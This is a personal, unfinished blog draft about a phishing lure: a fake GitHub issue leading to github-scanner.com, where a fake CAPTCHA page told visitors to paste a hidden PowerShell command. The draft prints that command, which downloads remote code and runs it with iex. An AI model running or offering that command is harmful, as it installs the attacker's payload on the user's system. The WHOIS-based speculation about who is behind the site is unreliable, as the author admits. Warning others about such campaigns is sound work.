THIS IS INCOMPLETE AND POSSIBLY INACCURATE. DONT DRAWY ANY CONCLUSIONS FROM THIS. I WILL GET TL THIS LATER.

Todo: ill just add the screenshots for now. i write the article later either on this saturday and sunday or after my exams are over.

<!--truncate-->

Today, i recieved an email that says theres a security vulnerability detected in one of my github repository. Normally, i recieve emails from depandabot every now and then, but it links me back to github for further action.

But this email, asks me to vist github-scanner.com, and is slightly unusual, as its an issue opened in this repository, that says to go to this unkown link to get more information on how to fix this issue.



As expected, github identified it as fradulent / malicious and has deleted that issue from my repository quickly from github.com



But, i still have the content of that malicious issue opened in my emails. So, i clicked on this link.

It asked to me verify if i'm not a robot. you might expect something similar when using VPNs





DO NOT RUN THIS!

```
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```









https://www.virustotal.com/gui/url/b64a25fef85ad988dee3d3b772ea60dc4d53333cd0857924745c000ff858c5eb



https://app.any.run/tasks/8ac63e3e-621c-4d47-b832-73dad43c208c

    

https://tria.ge/240919-fczkva1gja/behavioral1







we will report it







WHOIS

```
   Domain Name: GITHUB-SCANNER.COM
   Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.webnic.cc
   Registrar URL: http://https://www.webnic.cc
   Updated Date: 2024-09-18T12:34:24Z
   Creation Date: 2024-09-18T12:34:24Z
   Registry Expiry Date: 2025-09-18T12:34:24Z
   Registrar: Web Commerce Communications Limited dba WebNic.cc
   Registrar IANA ID: 460
   Registrar Abuse Contact Email: compliance_abuse@webnic.cc
   Registrar Abuse Contact Phone: +60.189836788
   Domain Status: ok https://icann.org/epp#ok
   Name Server: CODY.NS.CLOUDFLARE.COM
   Name Server: MARGOT.NS.CLOUDFLARE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-09-19T04:59:15Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.

TERMS OF USE: You are not authorized to access or query our Whois
database through the use of electronic processes that are high-volume and
automated except as reasonably necessary to register domain names or
modify existing registrations; the Data in VeriSign Global Registry
Services' ("VeriSign") Whois database is provided by VeriSign for
information purposes only, and to assist persons in obtaining information
about or related to a domain name registration record. VeriSign does not
guarantee its accuracy. By submitting a Whois query, you agree to abide
by the following terms of use: You agree that you may use this Data only
for lawful purposes and that under no circumstances will you use this Data
to: (1) allow, enable, or otherwise support the transmission of mass
unsolicited, commercial advertising or solicitations via e-mail, telephone,
or facsimile; or (2) enable high volume, automated, electronic processes
that apply to VeriSign (or its computer systems). The compilation,
repackaging, dissemination or other use of this Data is expressly
prohibited without the prior written consent of VeriSign. You agree not to
use electronic processes that are automated and high-volume to access or
query the Whois database except as reasonably necessary to register
domain names or modify existing registrations. VeriSign reserves the right
to restrict your access to the Whois database in its sole discretion to ensure
operational stability.  VeriSign may restrict or terminate your access to the
Whois database for failure to abide by these terms of use. VeriSign
reserves the right to modify these terms at any time.

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.


Domain Name: GITHUB-SCANNER.COM
Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.webnic.cc 
Registrar URL: http://www.webnic.cc 
Updated Date: 2024-09-18T12:41:20Z
Creation Date: 2024-09-18T12:34:24Z
Expiration Date: 2025-09-18T00:34:24Z
Registrar: WEBCC 
Registrar IANA ID: 460 
Registrar Abuse Contact Email: compliance_abuse@webnic.cc 
Registrar Abuse Contact Phone: +60.389966799 
Domain Status: ok https://icann.org/epp#ok 
Registry Registrant ID: Not Available From Registry
Registrant Name: Domain Admin 
Registrant Organization: Whoisprotection.cc
Registrant Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Registrant City: Kuala Lumpur
Registrant State/Province: Wilayah Persekutuan
Registrant Postal Code: 57000
Registrant Country: Malaysia
Registrant Phone: +60.389966788
Registrant Phone Ext: 
Registrant Fax: +603.89966788
Registrant Fax Ext: 
Registrant Email: reg_21331022@whoisprotection.cc
Registry Admin ID: Not Available From Registry
Admin Name: Domain Admin 
Admin Organization: Whoisprotection.cc
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
Admin Phone Ext: 
Admin Fax: +603.89966788
Admin Fax Ext: 
Admin Email: adm_21331022@whoisprotection.cc
Registry Tech ID: Not Available From Registry
Tech Name: Domain Admin 
Tech Organization: Whoisprotection.cc
Tech Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Tech City: Kuala Lumpur
Tech State/Province: Wilayah Persekutuan
Tech Postal Code: 57000
Tech Country: Malaysia
Tech Phone: +60.389966788
Tech Phone Ext: 
Tech Fax: +603.89966788
Tech Fax Ext: 
Tech Email: tec_21331022@whoisprotection.cc
Name Server: CODY.NS.CLOUDFLARE.COM
Name Server: MARGOT.NS.CLOUDFLARE.COM
DNSSEC: unsigned

URL of the ICANN WHOIS Data Problem Reporting System: https://www.icann.org/wicf
>>> Last update of WHOIS database: 2024-09-19T04:59:24Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

The Data in Web Commerce Communications Limited ("WEBCC")'s WHOIS database 
is provided by WEBCC for information purposes, and to assist in obtaining 
information about or related to a domain name registration record. WEBCC 
does not guarantee its accuracy. By submitting a WHOIS query, you agree 
that you will use this Data only for lawful purposes and that, under no 
circumstances will you use this Data to:

(1) allow, enable, or otherwise support the transmission of mass unsolicited, 
    commercial advertising or solicitations via e-mail (spam).
(2) enable high volume, automated, electronic processes that apply to WEBCC
    (or its systems).

The compilation, repackaging, dissemination or other use of this Data is
expressly prohibited without the prior written consent of WEBCC. WEBCC 
reserves the right to terminate your access to the WEBCC WHOIS database in 
its sole discretion, including without limitation, for excessive querying 
of the WHOIS database or for failure to otherwise abide by this policy. 
WEBCC reserves the right to modify these terms at any time.			
```


```
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
```
Looks like the registrant is from Malaysia, Singapore, Indonesia, Thailand, Korea, Hong Kong:

and the number is associated with many scams:





NOTE: THEY ARE EITHER A SERVICE PROVIDER BEING ABUSED BY SCAMMERS
OR THEY THEMSELVES ARE THE SCAMMERS



Upon googling, we can sort of confirm the details about him.

https://scammer.info/t/paypal-sms-phishing/67211        

```
**Street:**L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
**City: **Kuala Lumpur
**State: **Wilayah Persekutuan
**Postal Code: **57000
**Country: **Malaysia
```

"Information in the whois is just the contact information for the company that owns the registrar.
WebNic (The Registrar) seems to be owned by https://www.qinetics.net/. I think this is as far as the story goes, nothing illegitimate with qinetics and no obvious leads forwards."

company info: (possibly sketchy)



this seems to be a company with a similiar name in the same address, possible the same floor, `L4-E-2, HIVE 5`
and it might be mistaken to the original scam



which is at: `L4-E-2, LEVEL 4`



location: https://www.google.com/local/place/fid/0x31cc4bec697c837f:0x7eebfaa37d15c1bc/photosphere?iu=https://streetviewpixels-pa.googleapis.com/v1/thumbnail?panoid%3DPRZfcZ5YwkoeawI7IvJwsA%26cb_client%3Dlu.gallery.gps%26w%3D160%26h%3D106%26yaw%3D145.84714%26pitch%3D0%26thumbfov%3D100&ik=CAISFlBSWmZjWjVZd2tvZWF3STdJdkp3c0E%3D 

or, it might even be the same company

   

Qinetics Solutions Sdn Bhd are hiring:



reg.asia might be a service provider

https://www.reg.asia/contact-us/    





yeah

what it come down to is customers abusing a company - possibly...


